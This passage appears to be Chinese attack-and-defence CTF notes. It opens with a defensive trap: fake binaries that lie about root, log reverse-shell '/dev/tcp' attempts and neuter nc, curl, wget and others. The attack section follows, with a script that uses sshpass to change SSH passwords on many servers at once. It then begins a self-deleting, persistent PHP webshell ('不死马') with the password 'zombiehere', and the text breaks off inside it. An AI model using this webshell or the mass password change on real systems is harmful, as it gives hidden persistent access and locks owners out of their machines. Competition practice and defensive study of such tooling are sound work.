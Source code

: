 		  cat > /tmp/fakebin/id << EOF
		  #!/bin/sh
		  echo 'uid=0(root) gid=0(root)'
		  EOF
		  
		  cat > /tmp/fakebin/bash << 'EOF'
		  #!/bin/sh
		  reverse_bash_msg=$(echo "$@" | /bin/grep '/dev/tcp/')
		  if [ "$reverse_bash_msg" != "" ]; then
		     echo "$reverse_bash_msg" >> /tmp/hunlv-reverse-bash.txt
		     exit
		  fi
		  EOF
		  
		  for filename in nc sh python python3 php grep cat tac curl wget; do
		      cat > /tmp/fakebin/$filename << EOF
		  #!/bin/sh
		  echo 'successfully executed, for real'
		  EOF
		  done
		  chmod 755 /tmp/fakebin/*
		  ```
- # 攻击
	- 批量修改SSH密码
		- ```shell
		  #!/bin/bash
		  
		  # 定义服务器列表
		  # servers=$(echo $(for i in $(seq 1 10); do echo "10.1.$i.1"; done) )
		  servers=("server1" "server2" "server3")
		  
		  # 定义SSH密码
		  new_password="newpassword114514"
		  
		  # 遍历服务器列表
		  for server in ${servers[@]}
		  do
		      # 进行登录并修改密码
		      sshpass -p "old_password" ssh user@$server "echo -e 'old_password\n$new_password\n$new_password' | passwd"
		      # 输出结果
		      if [ $? -eq 0 ]; then
		          echo "服务器 $server 密码修改成功"
		      else
		          echo "服务器 $server 密码修改失败"
		      fi
		  done
		  ```
- # PHP不死马
	- 密码`zombiehere`
	- ```php
	  <?php
	  ignore_user_abort(true);
	  set_time_limit(0);
	  unlink(__FILE__);